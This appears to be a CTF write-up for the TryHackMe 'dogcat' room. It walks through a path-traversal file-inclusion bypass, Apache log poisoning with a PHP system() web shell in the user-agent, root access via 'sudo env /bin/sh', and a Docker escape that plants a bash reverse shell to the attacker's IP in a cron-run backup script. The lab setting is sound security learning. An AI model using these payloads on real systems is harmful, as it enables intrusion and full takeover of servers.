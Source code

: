 # dogcat Writeup
https://tryhackme.com/room/dogcat


## Flag 1

First I navigate to the website running on the endpoint. The hint led me to believe that messing around with the view parameter was a good place to start. After trying different things it became obvious that they were filtering for the words cat or dog. The trick I used to get around this was:
```
?view=./dog/../../../../../../../SOME FILE
```
This is the source code filtering the requests.
* It checks for '.php' extension and adds it if missing
* It checks if view parameter includes either cat or dog
```
    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
```

After doing some research and manual checking of common files I came acrossed access.log.
```
?view=./dog/../../../../../../../var/log/apache2/access.log&ext
```
* Include the 'ext' so that it won't add the php extension to the end.

The access.log included ip, time, request, and user-agent information. I sent a modified request where I made the user-agent = `<?php system($_GET['cmd']);?>` This way when we navigate to access.log we can pass in a parameter 'cmd' which will execute commands on the system.

```?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=whoami```


I found a great blog post about log poisoning on apache servers with LFI [here](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/). I used the same metasploit module as well.

[alt text](https://github.com/nickswink/Dogcat-Writeup/metasploit.png?raw=true)

* After this we drop in as user www-data and the first flag is in our current directory. 





## Flag 2

The second flag was pretty easy to find which was just a directory up.






## Flag 3 

The flag was in the root directory which we need root permissions for. After some quick manual enumeration I found that we are able to run /usr/bin/env without a password.

```
sudo -l 
Matching Defaults entries for www-data on 5d7fb280ac0c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 5d7fb280ac0c:
    (root) NOPASSWD: /usr/bin/env
```
A quick visit to [GTFOBins](https://gtfobins.github.io/gtfobins/env/) and we can run `sudo env /bin/sh` and Boom! We are root! Navigate to /root to read flag3.txt





## Flag 4

Honestly I had no idea how to get flag 4. You need to escape the docker container that you are in which was a new concept for me.

Navigate to /opt/backups

```
echo "#!/bin/bash" > backup.sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/<YOUR-IP>/1234 0>&1'" >> backup.sh
```

On attacker machine:
```
nc -lnvp 1234
```

backup.sh runs frequently on the parent machine and will send you a priviledged parent shell when it does and the last flag is right there.
